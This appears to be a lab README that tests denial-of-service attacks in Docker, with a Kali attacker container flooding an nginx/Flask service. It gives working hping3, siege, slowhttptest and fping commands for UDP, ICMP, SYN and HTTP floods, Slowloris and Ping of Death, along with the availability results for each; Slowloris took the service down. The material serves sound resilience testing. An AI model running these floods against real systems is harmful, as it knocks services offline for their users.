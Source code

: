 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c50 -t60s http://localhost:8080
```
Example normal report
```
Transactions:		        5831 hits
Availability:		      100.00 %
Elapsed time:		       59.38 secs
Data transferred:	        0.01 MB
Response time:		        0.01 secs
Transaction rate:	       98.20 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.90
Successful transactions:        5831
Failed transactions:	           0
Longest transaction:	        0.16
Shortest transaction:	        0.00
```

Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21. Since our `siege` command reports normal results:
```
Transactions:		        5866 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.00 secs
Transaction rate:	       98.89 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.37
Successful transactions:        5866
Failed transactions:	           0
Longest transaction:	        0.11
Shortest transaction:	        0.00
```
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application:
```
Transactions:		        2897 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.52 secs
Transaction rate:	       48.84 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		       25.59
Successful transactions:        2897
Failed transactions:	           0
Longest transaction:	       14.40
Shortest transaction:	        0.09
```
Also we can observe increase CPU and traffic on our nginx container:
![Screenshot from 2022-01-03 18-58-40](https://user-images.githubusercontent.com/19594637/147958096-40632afc-3a05-4c6c-bd23-6d0bdfe4923e.png)


* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		         512 hits
Availability:		       33.33 %
Elapsed time:		       16.26 secs
Data transferred:	        0.00 MB
Response time:		        0.02 secs
Transaction rate:	       31.49 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.65
Successful transactions:         512
Failed transactions:	        1024
Longest transaction:	        0.07
Shortest transaction:	        0.00
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

* syn flood

Doesn't seem to bother our application availability:
```
Lifting the server siege...
Transactions:		       98327 hits
Availability:		      100.00 %
Elapsed time:		      179.49 secs
Data transferred:	        0.19 MB
Response time:		        0.36 secs
Transaction rate:	      547.81 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.59
Successful transactions:       98327
Failed transactions:	           0
Longest transaction:	        3.20
Shortest transaction:	        0.00

```
![Screenshot from 2022-01-04 13-53-13](https://user-images.githubusercontent.com/19594637/148055345-17b2e7a6-76ce-4b5a-911d-7f21816a8fa5.png)

* Ping of death

Does not seems to be reproducable with modern software
```
fping: data size 65510 not valid, must be lower than 65488
```
